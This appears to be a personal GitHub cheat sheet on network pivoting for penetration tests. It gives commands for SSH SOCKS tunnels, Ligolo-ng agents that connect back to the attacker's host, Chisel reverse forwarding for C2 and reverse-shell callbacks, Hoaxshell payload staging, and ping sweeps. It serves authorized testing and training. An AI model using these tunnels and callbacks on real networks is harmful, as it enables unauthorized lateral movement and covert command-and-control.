


This page aims to be a quick guide / cheat sheet about network pivoting. I update it as I learn new techniques. Hope you (and future me) will find useful stuff in here. Good luck with your network pivoting! 🪃

## Reverse SSH Tunneling 
On host.
```sh
ssh -N -D 5959 root@10.10.110.100 -i root.priv

# edit /etc/proxychains4.conf (or /etc/proxychains.conf)
socks5  127.0.0.1 5959

# nmap via proxychains to scan internal network (port 22)
proxychains nmap -Pn -v -p 22 172.16.1.0/24
```

## Ligolo-ng
### Install
On Kali Linux.
```sh
sudo apt install ligolo-ng
```
### Tunnel setup
Start proxy.
```sh
ligolo-proxy -selfcert
```

Drop the agent on the target, then connect back.
```sh
./agent -connect 10.10.14.186:11601 -ignore-cert
```

You should see the agent connect back.


Open another terminal and add the new tunnel.
```sh
sudo ip tuntap add dev ligolo mode tun
sudo ip link set ligolo up
sudo ip route add 172.16.1.0/24 dev ligolo
```

Start the tunnel (on ligolo-proxy console).
```sh
start
```

Test the tunnel.
```sh
ping 172.16.1.100
```
### Useful Ligolo-ng proxy commands
```sh
# check target interfaces
ifconfig
```

## Reverse Port Forwarding (C2 connection)
Reverse Port Forwarding is essential when you drop a C2 agent (or spawn a reverse shell) on an **internal target**, and you need it to connect back to your host, **outside of the internal network**.

You can achieve it with SSH as long as the `GatewayPorts` option is set to "yes" in `/etc/ssh/sshd_config`, or you are able to modify the config file and restart the SSH service.

Otherwise, you can rely on [Chisel](https://github.com/jpillora/chisel/releases): just download the correct binary (or binaries) according to your host and target architectures, decompress it and drop a copy of it on the target. **Chisel binary is both server and client**.

### Chisel Server
Start the server.
```sh
./chisel server --socks5 --reverse
```

You can additionally specify the listening interface with `--host <YOUR-IP>`. By default Chisel will serve on every interface.

Once started, Chisel server will output a fingerprint string, which is used by the client as a token when connecting back.

### Chisel client
This command will route all **internal traffic directed to port 9090** on the **internal interface** of the target, to your host.
```sh
./chisel client -fingerprint '<FINGERPRINT>' <CHISEL_IP>:<CHISEL_PORT> <PIVOT_LISTENING_IP>:<PIVOT_LISTENING_PORT>:<C2_IP>:<C2_PORT>
```

For example:
- Both Chisel server and the C2 are running on your host `10.10.14.186`
	- **Chisel** is listening on **port 8080**
	- **C2** is listening on **port 9090**
- We are going to route to our host every request made to port 9090 of the target (on every interface -> `0.0.0.0` or limit it to the internal interface only).
```sh
./chisel client -fingerprint 'cBR+MAFWpN/fZoNMjQ3ynHpmzYmqVbMcHvm5ZGPKZvY=' 10.10.14.186:8080 0.0.0.0:9090:10.10.14.186:9090
```

### Hoaxshell Server
Start [Hoaxshell](https://github.com/t3l3machus/hoaxshell) with `-s` flag set to the pivot server IP. 


Copy the reverse shell payload and run it on the target (e.g. in a webshell or to stabilise a shell).

### Utils
Subnet hosts discovery when gaining foothold.
```sh
# bash
for i in $(seq 1 254); do ping -c 1 -W 1 172.16.88.$i &>/dev/null && echo "172.16.88.$i is up"; done

# powershell
1..254 | ForEach-Object { $ip = "172.16.1.$_" ; if ((Test-Connection -ComputerName $ip -Count 1 -Quiet)) { Write-Host "$ip is online" } }
```

## Useful resources
- [Pivoting Guide - t3l3machus/pentest-pivoting](https://github.com/t3l3machus/pentest-pivoting)
